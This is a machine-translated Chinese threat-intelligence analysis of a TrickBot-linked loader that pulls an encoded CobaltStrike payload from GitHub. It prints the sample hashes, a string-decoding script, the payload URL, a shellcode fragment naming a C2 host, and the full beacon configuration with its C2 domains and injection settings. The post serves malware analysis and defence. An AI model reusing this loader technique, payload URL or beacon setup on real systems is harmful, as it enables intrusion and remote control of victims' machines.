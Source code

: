 # TrickBot 船员新钴罢工装载机

> 原文：<https://medium.com/walmartglobaltech/trickbot-crews-new-cobaltstrike-loader-32c72b78e81c?source=collection_archive---------0----------------------->

作者:杰森·里维斯和约书亚·普拉特

![](img/06c6a6c0d8b86c2b4aa6604af2a30a6c.png)

最近，我们偶然发现一个新的 CS 加载器被一个参与 TrickBots CS 和赎金操作的演员所利用。

![](img/5eef9397d2923a678d6f6faac99c1f46.png)

Ref: Virustotal.com

在上面的截图中，我们可以看到 TrickBots 工作人员过去曾利用域来运行他们的 CobaltStrike 感染，但最近出现了另一个样本，这是一个新的加载程序，我们稍后将看到它也用于交付 CobaltStrike，但与以前的交付方式相比，它采用了一种新的方式，即利用 GitHub 来托管编码数据。

# 新加载程序

```
MD5:     5b203929f9e42c6d14b7153c5f11d387
SHA1:    4e6a42b0da1185a4331e085ee68b64f61e1d9e83
SHA256:  0234f80c6fd3768f9619d6fcd50d775ec686719fcc665007bfd1606bbe787744
```

大多数重要的字符串都是模糊的:

![](img/ae533b65a747d53c9f62a2fe29ff8c07.png)

String stored in data

![](img/b4b5fcc9379406ead537916073a82603.png)

String loaded on stack

在这两种情况下，字符串最终通过与单个字节进行 XOR 运算并从值中减去 iterator+1 来解码，然而在这些情况下，XOR 关键字只是 0。用于解码各种字符串的 IDA 代码示例如下:

```
def decode(s,k):
  blob = bytearray(s[5:])
  for i in range(len(blob)):
    blob[i] ^= k
    blob[i] = (blob[i] - (i+1)) & 0xff
  return blob

def tdecode(addr):
 out = ""
 while GetMnem(addr) == "mov" and GetOperandValue(addr,1) != 0:
  out += chr(GetOperandValue(addr,1))
  addr = idc.NextHead(addr)
 return decode(out,0)
```

相关字符串的部分列表如下:

```
Asderfolkij092/laughing-pancake/main/profile.jpg
Curl
GET
raw.githubusercontent.com
NtAllocateVirtualMemory
wininet.dll
LoadLibraryW
C:\Windows\System32\ntdll.dll
HttpSendRequestW
logo.png
C:\Windows\System32\kernel32.dll
```

该示例将手动将 kernel32.dll 和 ntdll.dll 加载到内存中，以解析它的一些函数，但将利用 LoadLibraryW 来加载 wininet.dll。该示例还将利用 VirtualAllocExNuma 将 dll 加载到内存中:

![](img/b3f8a9015bc4a718d90f6cb23816dc4e.png)

在解决了必要的依赖性之后，加载程序将简单地尝试下载一个文件，该文件将被解码，然后在内存中执行。从上面的部分字符串列表中可以看出，这个文件曾经托管在 GitHub 上:

```
raw.githubusercontent.com/Asderfolkij092/laughing-pancake/main/profile.jpg
```

这个帐户不再活跃，似乎已被删除，可能躲避了演员在利用他们的活动后清理自己。不过，我们确实设法发现了一个正在利用的活跃账户:

![](img/71217c58800142adb5b752668c010971.png)

Ref: github.com

将要使用的文件位于“无处不在的流鼻涕”存储库中:

![](img/f29bb89f0729228cf0139fec3fb4e66d.png)

Ref: github.com

safety.png 文件根本不是图像，它实际上只是一个小的二进制数据块:

```
00000000: 00b9 e031 3244 200d 1c02 71cc 1058 8486  ...12D ...q..X..
00000010: 4023 3018 22c4 3364 228c 8878 2e0a d488  @#0.".3d"..x....
00000020: 8746 0c81 353e 7614 5903 630d 1920 49da  .F..5>v.Y.c.. I.
00000030: 3038 7186 4822 28f1 d8a8 c132 a110 9031  08q.H"(....2...1
00000040: 6d60 3c68 13a7 c018 1379 e2c1 7113 cf49  m`<h.....y..q..I
00000050: 8132 764e 242a f046 cc92 3533 1a11 28e4  .2vN$*.F..53..(.
00000060: 86c1 2057 0d12 11e8 52e0 901c 51bb 52c4  .. W....R...Q.R.
<...>
```

在我们解码这个数据块之后，我们剩下一个 C 风格的十六进制字节字符串，乍一看是外壳代码:

```
xFC\x48\x83\xE4\xF0\xE8\xC8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xD2\x65\x48\x8B\x52\x60\x48\x8B\x52\x18\x48\x8B\x52\x20\x48\x8B\x72\x50\x48\x0F\xB7\x4A\x4A\x4D\x31\xC9\x48\x31\xC0\xAC\x3C\x61\x7C\x02\x2C\x20\x41\xC1\xC9 <...>
```

转换为字节:

```
<...>
\x82\xff\xff\xff/gifs20210122.dat\x00\xb4\xeb\xee\x92?\xfe\xfc\x9f\xce\x92{\x14\xe3P\xd9\xef\x89\xd5\x11\xbcmM\xd4=L\xc6\xf6(\xbb>\xfd\x0e\xc3w# \xf9\x1f\xd5W\xcd\x14H\xca\x97O\xeb\xf1\x1c\xb6\x80Z.2WgKhq\x1f\x80\x00Connection: Keep-Alive\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win32; x32; rv:71.0) Gecko/20100101 Firefox/71.0\r\n\x00ce\xd6\xf6W\xe5\x03\xc1C\x93-5\x7f4\x97|\x96\x13\xf3\xfe\x87\xd1\xc4q1pdwH\rQ\x91{\x90\xe7\xdff\xbd\xb9(v\x18\x8b\xfb\x04\xb2\xce\xc9VY\xb9\xfb\x0bcG\xe9\xd4B\x86m\x1e\xcc\x0f\xea\xcd\x0cbxe\x04\xebw\x84/F\xbco]LY\xd0\x1f\xe7\xf7\xa9np\x8dx/<\xf5^\x1e\xf9\x16\xa7\xb9\xb7\x87\xc1\x03\xb8h>\x91Z\x98\x9a\xf4\xee/\xad\xb3\xba|\x9d\xd2\xac\xa0\x1e\xcc*j\xe9\xe5> g\xae\xf4\x84\xb4\x00\x1f,\xb1\x9bOiw\xfc\xc0\x19\xa6\x02\xeb\xe2c=m\xb6\xb4(Q\x8d?Y\x0e\xda0?y\xe0;\xd6|\xf1\x9dDT\xd2\xd5\x9a#\xe7b;\xe7\x1c\x9a\xda\x8fH\xfa\x01\x00A\xbe\xf0\xb5\xa2V\xff\xd5H1\xc9\xba\x00\x00@\x00A\xb8\x00\x10\x00\x00A\xb9@\x00\x00\x00A\xbaX\xa4S\xe5\xff\xd5H\x93SSH\x89\xe7H\x89\xf1H\x89\xdaA\xb8\x00 \x00\x00I\x89\xf9A\xba\x12\x96\x89\xe2\xff\xd5H\x83\xc4 \x85\xc0t\xb6f\x8b\x07H\x01\xc3\x85\xc0u\xd7XXXH\x05\x04\x00\x00\x00P\xc3\xe8\x7f\xfd\xff\xffcakes.rainbowmango.info\x00Q\t\xbfm
```

它将下载 64 位 CobaltStrike 信标:

```
{   'C2_CHUNK_POST': '0',
    'C2_POSTREQ': '[(\'_HEADER\', 0, "bytearray(b\'Accept: */*\')"), (\'_HEADER\', 0, "bytearray(b\'Content-Type: multipart/form-data; boundary=-----------HYUNSJFDCNHWEUFNJ\')"), (\'BUILD\', (\'NETBIOS\',)), (\'_HEADER\', 2336, \'bytearray(b\\\' \\\\t     \\\\n\\\\t    \\\\t     menu\\\\x00\\\\x00\\\\x00\\\\x01\\\\x00\\\\x00\\\\x00\\\\xc0\\\\n-----------HYUNSJFDCNHWEUFNJ\\\\n\\\\t            Content-Disposition: form-data; name="pic"\\\\n\\\\t            \\\\n\\\\t            dropdown-menu dropdown-menu-sw-menu\\\\n\\\\t            -----------HYUNSJFDCNHWEUFNJ--\\\\x00\\\\x00\\\\x00\\\\x04\\\\x00\\\\x00\\\\x00\\\\x07\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\x00\\\\r\\\\x00\\\\x00\\\\x00\\\\x05\\\\x00\\\\x00\\\\x00\\\\x04base\\\')\')]',
    'C2_RECOVER': "b'04000000010000002400000008000000010000008c'",
    'C2_REQUEST': '[(\'_HEADER\', 0, "bytearray(b\'Accept: image/webp,*/*\')"), (\'_HEADER\', 0, "bytearray(b\'Accept-Encoding: gzip, deflate, br\')"), (\'_HEADER\', 0, "bytearray(b\'Accept-Language: en-US,en;q=0.5\')"), (\'_HEADER\', 0, "bytearray(b\'Cache-Control: max-age=0\')"), (\'BUILD\', (\'BASE64URL\',)), (\'HEADER\', 17263, "bytearray(b\'ie\')")]',
    'C2_VERB_GET': 'GET',
    'C2_VERB_POST': 'POST',
    'CRYPTO_sCHEME': '0',
    'DOMAINS': 'subs.rainbowmango.info ,/share/pink,food.rainbowmango.info,/share/pink',
    'HostHeader': '',
    'ITTER': '55',
    'KillDate': '0',
    'MAXGET': '2097468',
    'ObfSectionsInfo': "b'c0020072b8030000c00300888504000090040034b0040000c004005ecf04'",
    'PORT': '443',
    'PROTOCOL': '8',
    'PROXY_BEHAVIOR': '2',
    'PUBKEY': "b'30819f300d06092a864886f70d010101050003818d0030818902818100a70991d69d816a601ffa80976473830f0d3b41276d2790401ddedb18e2d3cab3c315e3222325be42b65adb2878f33f5a03ff5010b23e842a510c1482ad6a42f1e7e5726eb31813e7437640ed7879955f401e172c34d3517241596dd41f8e48d3d1b1c288e6c8752ff65dc27acccba4ba9cd6d0e4de6196cea4da480d3b99d0ed0203010001'",
    'ProcInject_AllocationMethod': '0',
    'ProcInject_Execute': '\x01\x03\x06\x10\x00\x00\x00\x00\nntdll.dll\x00\x00\x00\x00\x13RtlUserThreadStart\x00\x02\x08\x07 \x00\x00\x00\x00\rkernel32.dll\x00\x00\x00\x00\rLoadLibraryA\x00\x04',
    'ProcInject_MinAllocSize': '16535',
    'ProcInject_Prepend_x64': '',
    'ProcInject_Prepend_x86': '',
    'ProcInject_StartRWX': '4',
    'ProcInject_Stub': "b'0ce2f55444e4793516b5afe967be9255'",
    'ProcInject_UseRWX': '32',
    'SLEEPTIME': '6145',
    'SPAWNTO': '',
    'SPAWNTO_X64': '%windir%\\sysnative\\gpupdate.exe',
    'SPAWNTO_X86': '%windir%\\syswow64\\gpupdate.exe',
    'SUBMITURI': '/us',
    'USERAGENT': 'Mozilla/5.0 (Windows NT 10.0; Win32; x32; rv:74.0) Gecko/2010010101 Firefox/74.0',
    'UsesCookies': '1',
    'WATERMARK': '1359593325',
    'bCFGCaution': '0',
    'bStageCleanup': '0',
    'textSectEnd': '177872'}
```

# 参考

1.  [https://docs . Microsoft . com/en-us/windows/win32/API/memory API/nf-memory API-virtualallocexnuma](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocexnuma)
2.  【https://virustotal.com 号
3.  【https://github.com 